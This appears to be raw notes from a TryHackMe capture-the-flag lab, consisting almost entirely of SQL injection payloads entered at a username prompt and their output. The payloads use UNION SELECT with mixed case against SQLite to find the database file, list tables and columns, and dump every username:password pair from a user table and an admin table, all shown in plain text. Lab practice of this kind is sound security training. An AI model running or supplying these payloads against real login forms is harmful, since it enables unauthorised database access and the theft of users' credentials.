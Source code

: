 username : smokey
password : vYQ5ngPpw8AdUmL

tF8tj2o94WE4LKC

Please enter your username: ' UnIoN SeLeCt null, table_name, null FrOm information_schema.tables WhErE '1'='1                                                               
Error: no such table: information_schema.tables


' UnIoN SeLeCt null,file,null FROM PRAGMA_database_list WhErE '1'='1

' UnIoN SeLeCt null WhErE '1'='1

' UnIoN SeLeCt file FROM PRAGMA_database_list WhErE '1'='1

Please enter your username: ' UnIoN SeLeCt file FROM PRAGMA_database_list WhErE '1'='1
Password: /home/adrian/users.db


' UnIoN SeLeCt name FROM sqlite_master WHERE type='table' WhErE '1'='1


Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table' AND '1'='1
Password: admintable


Please enter your username: ' UnIoN SeLeCt group_concat(name) FROM PRAGMA_table_info('admintable') WHERE '1'='1
Password: id,username,password


Please enter your username: ' UnIoN SeLeCt username || ':' || password FROM admintable WHERE '1'='1
Password: TryHackMeAdmin:mamZtAuMlrsEy5bp6q17

Please enter your username: ' UnIoN SeLeCt group_concat(name) FROM sqlite_master WHERE type='table' AND '1'='1
Password: usertable,admintable

' UnIoN SeLeCt group_concat(name) FROM PRAGMA_table_info('usertable') WHERE '1'='1

' UnIoN SeLeCt username || ':' || password FROM usertable WHERE '1'='1

Please enter your username: ' UnIoN SeLeCt username || ':' || password FROM usertable WHERE '1'='1
Password: alice:tF8tj2o94WE4LKC

Please enter your username: ' UnIoN SeLeCt group_concat(username || ':' || password) FROM usertable WHERE '1'='1
Password: alice:tF8tj2o94WE4LKC,rob:yAn4fPaF2qpCKpR,john:e74tqwRh2oApPo6,michael:7DV4dwA0g5FacRe,smokey:vYQ5ngPpw8AdUmL,hazel:EcSuU35WlVipjXG,ralph:YO1U9O1m52aJImA,steve:WObjufHX1foR8d7


' UnIoN SeLeCt group_concat(username || ':' || password) FROM admintable WHERE '1'='1